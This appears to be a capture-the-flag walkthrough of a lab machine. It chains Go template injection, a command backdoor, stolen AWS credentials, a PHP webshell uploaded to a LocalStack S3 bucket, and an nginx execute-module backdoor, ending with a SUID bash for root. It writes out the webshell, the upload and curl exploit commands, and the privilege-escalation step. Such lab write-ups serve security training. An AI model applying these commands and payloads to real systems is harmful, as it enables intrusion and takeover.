





Exploitation Summary
The attack begins with reconnaissance, where a Go-powered web application on port 8080 is identified. The page title on port 80 leaks a Go template placeholder ({{.Title}}), hinting at a Server-Side Template Injection vulnerability. The forgot password functionality on the login page reflects user input, and by intercepting the request with Burp Suite and bypassing the frontend email validation, the full Go template context is exposed, confirming the SSTI vector.
After logging in with credentials found via SSTI enumeration, the application source code reveals a DebugCmd backdoor function capable of running arbitrary OS commands. By invoking this function through the template injection, command execution is achieved as root inside what appears to be a container. From there, AWS credentials are discovered in /root/.aws/credentials, which are used to authenticate against a LocalStack S3 instance running on port 4566.
The S3 bucket website contains the files served on port 80. A PHP webshell is uploaded to the bucket, which the web server executes, granting a reverse shell as www-data on the host machine. Post-exploitation enumeration reveals a locally-bound nginx server on port 8000 configured with a custom, modified ngx_http_execute_module backdoor module. The default trigger keyword has been changed to ippsec.run, but once identified via strings, it can be used to execute commands as root. A SUID bit is set on /bin/bash via this backdoor, completing the privilege escalation.
Initial Reconnaissance
Starting with an nmap scan to identify open ports and running services:
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.3
80/tcp open http nginx
4566/tcp open http nginx
8080/tcp open http nginx
9000/tcp filtered cslistener
9001/tcp filtered tor-orportSeveral interesting services are visible. Port 80 and 8080 both run nginx HTTP servers, port 4566 is commonly associated with LocalStack (an AWS emulator), and ports 9000/9001 are filtered and inaccessible for now.
The title of port 80's page reads Hacking eSports | {{.Title}} — the {{.Title}} placeholder strongly suggests a Go template engine is in use. The response header X-Forwarded-Server: golang on port 8080 confirms Go is powering the backend.
Port 80 is a minimal page with no JavaScript, no links, and nothing found through directory fuzzing beyond an index.html. Port 8080 hosts a login form and a /forgot password reset page, but no valid credentials are known yet. Port 4566 returns a 403 Forbidden for all paths but is worth revisiting once credentials are found.
SSTI Discovery — Forgot Password
Testing the password reset form on port 8080 with a simple email address shows that the input is reflected back in the response:

The email field has a frontend-only validation constraint. By intercepting the request in Burp Suite and submitting an arbitrary string instead of a valid email, the full Go template context is exposed in the response:

This reveals a credential pair embedded in the template context:
ippsec@hacking.esports : ippsSecretPasswordThe virtual host hacking.esports is added to /etc/hosts and virtual host fuzzing is attempted, but nothing additional is found.
Source Code Disclosure — DebugCmd Backdoor
Logging in with the discovered credentials doesn't lead to a normal dashboard — instead, the response contains what appears to be the Go application's source code. Inside, a particularly interesting function stands out:
func (u User) DebugCmd(test string) string {
ipp := strings.Split(test, " ")
bin := strings.Join(ipp[:1], " ")
args := strings.Join(ipp[1:], " ")
if len(args) > 0 {
out, _ := exec.Command(bin, args).CombinedOutput()
return string(out)
} else {
out, _ := exec.Command(bin).CombinedOutput()
return string(out)
}
}The DebugCmd method on the User struct accepts a string, splits it into a binary and arguments, and directly executes it via exec.Command. This is a classic command execution backdoor. Since it is a method on a User object and the template engine can call methods on reflected objects, it is callable directly through SSTI.
Remote Code Execution via SSTI
Using the Go template injection vector in the forgot password form, the DebugCmd method can be invoked to run arbitrary commands on the server:

The command output shows the process is running as root. However, attempts to send a reverse shell through various methods fail, which — combined with the direct root access — strongly suggests this is a containerised environment rather than the actual host machine.
AWS Credentials Discovery — LocalStack
Exploring the filesystem with simple ls and cat commands through the SSTI vector, a .aws directory is found under /root containing a credentials file:

[default]
aws_access_key_id=SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhhY2tpbmdFc3BvcnRz
aws_secret_access_key=SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhhY2tpbmdFc3BvcnRzThese credentials are saved locally to ~/.aws/credentials under the [default] profile. To avoid typing the endpoint URL on every command, an alias is created pointing at the LocalStack instance on port 4566:
alias awslocal='aws --endpoint-url http://10.129.95.236:4566 --profile default'S3 Enumeration — Webshell Upload
Listing available S3 buckets reveals a bucket named website:
awslocal s3 ls2026-04-26 13:00:50 websiteawslocal s3 ls s3://websitePRE css/
1294778 bottom.png
165551 header.png
5 index.html
1803 index.phpThe bucket contains the files being served on port 80. Since the bucket is writable via the AWS CLI, it should be possible to upload a PHP webshell that the nginx server will execute. A simple webshell is created and uploaded:
cat xd.php<?php system($_GET['cmd']); ?>awslocal s3 cp xd.php s3://website/xd.phpupload: ./xd.php to s3://website/xd.phpNavigating to the uploaded file on port 80 confirms the webshell is being executed by the server:

With confirmed command execution via the webshell, a reverse shell payload is sent through the cmd parameter, gaining interactive access as www-data on the actual host machine. The user ubuntu is visible in /home.
Privilege Escalation — NginxExecute Backdoor Module
Enumerating the local system, port 8000 is found listening only on localhost (127.0.0.1:8000). Inspecting /etc/nginx/sites-enabled/default reveals an unusual nginx server block configuration for this port:
server {
listen 127.0.0.1:8000;
location / {
command on;
}
}The command on directive is not a standard nginx option. Investigating the loaded nginx modules reveals why:
cat /etc/nginx/modules-enabled/50-backdoor.confload_module modules/ngx_http_execute_module.so;This is the NginxExecute module — a known nginx module that enables HTTP-triggered command execution. According to its documentation, commands are passed via query string using the system.run[cmd] syntax. However, trying this directly returns an empty response:
curl localhost:8000/?system.run[id]curl: (52) Empty reply from serverThe module is loaded but not responding as expected. The compiled .so file may have been modified. Locating and inspecting it with strings reveals the answer:
find / -iname "*ngx_http*" 2>/dev/null/usr/lib/nginx/modules/ngx_http_execute_module.sostrings /usr/lib/nginx/modules/ngx_http_execute_module.so | grep runippsec.runThe module has been recompiled with a custom trigger keyword: ippsec.run instead of the default system.run. Using this keyword, the module responds correctly and executes commands as root:
curl 'localhost:8000/?ippsec.run[id]'uid=0(root) gid=0(root) groups=0(root)Commands with spaces or special characters need to be URL-encoded, since they would otherwise break the URL parsing. A small helper script is placed in /tmp/xd.sh to chain commands. First, it is tested with a simple id:
curl 'localhost:8000/?ippsec.run[bash%20tmp%2fxd.sh]'uid=0(root) gid=0(root) groups=0(root)The script is then updated to set the SUID bit on /bin/bash:
echo 'chmod u+s /bin/bash' > /tmp/xd.sh
curl 'localhost:8000/?ippsec.run[bash%20tmp%2fxd.sh]'With the SUID bit set on /bin/bash, a privileged shell is spawned using the -p flag, which preserves the effective UID:
bash -pbash-5.0# whoami
rootFull root access on the host machine is achieved. The root flag can now be retrieved.